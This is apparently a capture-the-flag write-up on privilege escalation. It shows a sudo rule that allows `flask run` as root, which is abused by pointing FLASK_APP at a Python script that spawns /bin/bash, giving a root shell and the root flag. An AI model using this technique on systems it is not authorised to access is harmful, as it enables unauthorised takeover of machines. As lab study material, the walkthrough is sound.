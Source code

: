 [< Back](../../README.md)

Now that we have access inside, let's look around the place, let's look at our permissions `sudo -l`:
<p><img src="src/root/sudo_permissions.jpg" width="750"></p>

We can execute `/usr/bin/flask run` as root without password. Running the commands says that FLASK_APP env var wasn't set, we have to give it a program.

Let's make a simple python script that launches a bash instance:
```py
import os

os.system('/bin/bash')
```
Then we can run it with `FLASK_APP=/home/prof/test.py sudo /usr/bin/flask run`, and just like that we get root access.

Final step let's cat `/root/root.txt`:
<p><img src="src/root/root_access.jpg" width="750"></p>
